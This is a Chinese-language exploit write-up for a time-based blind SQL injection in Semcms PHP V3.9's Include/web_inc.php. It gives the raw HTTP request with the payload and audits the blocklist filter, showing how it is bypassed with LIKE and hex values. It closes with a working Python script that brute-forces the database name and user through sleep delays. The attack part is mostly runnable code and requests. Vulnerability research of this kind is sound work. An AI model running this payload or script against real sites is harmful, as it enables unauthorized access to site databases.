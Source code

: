 # Semcms PHP(多语)版 V3.9 sql 注入漏洞

> 原文：[http://book.iwonder.run/0day/Semcms/111.html](http://book.iwonder.run/0day/Semcms/111.html)

## 一、漏洞简介

## 二、漏洞影响

Semcms PHP(多语)版 V3.9

## 三、复现过程

### 漏洞详情

漏洞文件为 Include 下的 web_inc.php 文件

包

```
POST /Include/web_inc.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
Content-Length: 64
Content-Type: application/x-www-form-urlencoded

languageID=0 or if(substr(database(),1,1) like 0x6D,sleep(5),1); 
```

基于时间的注入

### 代码审计

查看 web_inc.php 的关键代码

```
if (isset($_POST["languageID"])){$Language=test_input(verify_str($_POST["languageID"]));}else{$Language=verify_str($Language);}

if(!empty($Language)){

      //网站 SEO 设定

      $query=$db_conn->query("select * from sc_tagandseo where languageID=$Language");
      $row=mysqli_fetch_array($query);
      $tag_indexmetatit=datato($row['tag_indexmetatit']);// 首页标题
      $tag_indexkey=datato($row['tag_indexkey']);// 首页关键词
      $tag_indexdes=datato($row['tag_indexdes']);// 首页描述 

...... 
```

可以看到查询语句没有利用单引号闭合

跟入过滤函数查看

```
function test_input($data) { 
      $data = str_replace("%", "percent", $data);
      $data = trim($data);
      $data = stripslashes($data);
      $data = htmlspecialchars($data,ENT_QUOTES);
      return $data;

   }
function inject_check_sql($sql_str) {

     return preg_match('/select|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str);
} 

function verify_str($str) { 

   if(inject_check_sql($str)) {

       exit('Sorry,You do this is wrong! (.-.)');
    } 

    return $str; 
} 
```

过滤了一些关键字，正常的联合注入是没有办法了，可以时间盲注

利用`if`和`sleep`构造 payload，因为`<`,`=`被过滤且存在`htmlspecialchars`函数，利用 like 代替

```
languageID=0 or if(substr(database(),1,1) like 0x6e,sleep(5),1); 
```

附上脚本

```
# !/usr/bin/python3
# -*- coding:utf-8 -*-
# author: Forthrglory

import requests

def getDatabase(url):
    s = ''
    r = requests.session()
    head = {'Content-Type':'application/x-www-form-urlencoded'}

    for i in range(1,9):
        for j in range(97,122):
            data = 'languageID=0 or if(substr(database(),%s,1) like %s,sleep(5),1);' % (i,hex(j))

            result = r.post(url, data, headers=head)

            if(result.elapsed.total_seconds() > 5):
                s = s + chr(j)
                print(s)
                break
    print('database=' + s)

def getUser(url):
    s = ''
    r = requests.session()
    head = {'Content-Type':'application/x-www-form-urlencoded'}

    for i in range(1,21):
        for j in range(64,90):
            data = 'languageID=0 or if(substr(user(),%s,1) like %s,sleep(5),1);' % (i,hex(j))

            result = r.post(url, data, headers=head)

            if(result.elapsed.total_seconds() > 5):
                s = s + chr(j).lower()
                print(s)
                break
    print('user=' + s)

if __name__ == '__main__':
    url = 'http://127.0.0.1/Include/web_inc.php'

    s = getDatabase(url)
    u = getUser(url) 
```

运行截图

![image](img/00286c3648dd81b2215381cb5c648743.png)

![image](img/39be95920851f309d11688370f90c73c.png)

不过因为过滤了 select，暂时不知道怎么注出数据 ORZ，比如说注出 user 表中的密码之类的，如果有师傅愿意不吝赐教，这里万分感谢

## 参考链接

> [https://xz.aliyun.com/t/7122](https://xz.aliyun.com/t/7122)

